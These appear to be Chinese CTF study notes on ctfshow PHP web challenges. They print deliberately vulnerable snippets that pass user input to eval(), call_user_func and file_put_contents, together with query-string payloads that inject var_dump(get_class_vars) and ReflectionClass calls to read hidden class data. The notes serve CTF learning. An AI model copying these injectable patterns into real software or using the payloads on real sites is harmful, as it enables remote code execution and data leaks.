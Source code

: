 
^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。












^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否是一个数字值或数字字符串。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类信息，类名
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);

反射获取类信息
echo new ReflectionClass('ctfshow');
?v1=1&v2=echo new ReflectionClass&v3=;
```

^
## **is_numeric函数特性**
```
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
```